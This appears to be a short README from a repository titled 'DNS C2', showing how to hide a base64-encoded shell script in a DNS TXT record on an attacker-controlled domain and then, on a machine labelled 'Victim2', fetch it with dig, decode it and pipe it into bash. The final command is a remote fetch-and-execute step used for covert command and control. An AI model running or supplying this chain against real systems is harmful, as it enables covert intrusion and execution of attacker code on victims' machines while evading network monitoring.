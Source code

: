 # DNS C2

## Example:

### 1) Victim2: 

    cat /tmp/script.sh | base64

### 2) Add the encoded script as a TXT DNS record to the domain we control

### 3) Victim2: 

    dig +short -t TXT script.example.com

### 4) Victim2: 

    dig +short -t TXT script.example.com | tr -d "\"" | base64 -d | bash
